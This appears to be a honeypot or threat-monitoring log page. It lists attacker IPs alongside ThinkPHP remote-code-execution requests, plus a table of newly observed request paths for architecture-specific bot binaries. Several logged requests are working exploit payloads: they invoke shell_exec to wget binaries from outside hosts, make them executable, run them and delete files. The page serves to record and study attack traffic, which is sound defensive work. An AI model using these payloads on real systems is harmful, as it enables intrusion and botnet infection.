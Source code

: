 | 106.105.231.176 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 14.103.164.141  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://213.209.129.92/Yboats.x86 -O /tmp/.YBot; chmod 777 /tmp/.YBot; /tmp/.YBot thinkphp.selfrep' HTTP/1.1       |
| 49.143.97.135   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 58.242.106.187  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1             |
| 186.29.199.182  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1             |
| 123.241.190.219 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 123.195.84.162  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 36.226.193.153  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 1.165.21.84     | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |

## request

List of requests of the day that have never been detected, other requests that have already been detected and archived in the [request database.](https://blog.shoggoth.industries/database/request_database/).

|     |   number_of_occurence | request                                                                                                           |
|----:|----------------------:|:------------------------------------------------------------------------------------------------------------------|
|  15 |                    16 | GET /kai.html HTTP/1.1                                                                                            |
| 214 |                     5 | GET /tt/mips HTTP/1.1                                                                                             |
| 215 |                     5 | GET /vv/arc HTTP/1.1                                                                                              |
| 216 |                     5 | GET /vv/riscv32 HTTP/1.1                                                                                          |
| 217 |                     5 | GET /vv/sh4 HTTP/1.1                                                                                              |
| 218 |                     5 | GET /tt/sh4 HTTP/1.1                                                                                              |
| 219 |                     5 | GET /vv/mips HTTP/1.1                                                                                             |
| 220 |                     5 | GET /ee/armv4eb HTTP/1.1                                                                                          |
| 221 |                     5 | GET /ee/armv5l HTTP/1.1                                                                                           |
| 222 |                     5 | GET /x86_32.nn HTTP/1.1                                                                                           |
| 223 |                     5 | GET /sparc.nn HTTP/1.1                                                                                            |
| 224 |                     5 | GET /mipsel.nn HTTP/1.1                                                                                           |
| 225 |                     5 | GET /arm.nn HTTP/1.1                                                                                              |
| 226 |                     5 | GET /t/mips HTTP/1.1                                                                                              |
| 355 |                     5 | GET /splarm HTTP/1.1                                                                                              |
| 369 |                     5 | GET /splsh4 HTTP/1.1                                                                                              |
| 370 |                     5 | GET /splppc HTTP/1.1                                                                                              |
| 371 |                     5 | GET /LjEZs/uYtea.spc HTTP/1.1                                                                                     |
| 372 |                     5 | GET /LjEZs/uYtea.arm HTTP/1.1                                                                                     |
| 373 |                     5 | GET /jklspc HTTP/1.1                                                                                              |
| 390 |                     5 | GET /tsh4 HTTP/1.1                                                                                                |